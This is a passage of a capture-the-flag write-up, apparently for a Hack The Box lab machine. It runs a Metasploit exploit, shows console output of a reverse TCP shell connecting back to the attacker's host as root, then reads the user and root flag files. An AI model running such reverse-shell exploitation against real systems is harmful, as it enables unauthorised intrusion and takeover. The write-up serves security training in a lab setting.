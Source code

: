 lets run the exploit:
 
``` ruby
run
```
 
pops a shell:
 
```
[*] Started reverse TCP double handler on 10.10.14.23:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo LQByr8MPJ3zhSZdr;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "LQByr8MPJ3zhSZdr\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.3:54077) at 2017-09-16 21:16:51 +0100
 
```
 
let's check our privs:
 
``` sh
id
```
 
and we're root, W00tW00t!
 
```
uid=0(root) gid=0(root)
```

## Value Extraction

At this point I can grab both flags:

### Getting User

``` bash
cat /home/makis/user.txt
{{ page.hide | slice: 0, 20 | downcase }}{{ page.user | slice: 20, 32 }}
```

### Getting Root

``` bash
cat /root/root.txt
{{ page.hide | slice: 0, 20 | downcase }}{{ page.root | slice: 20, 32 }}
```


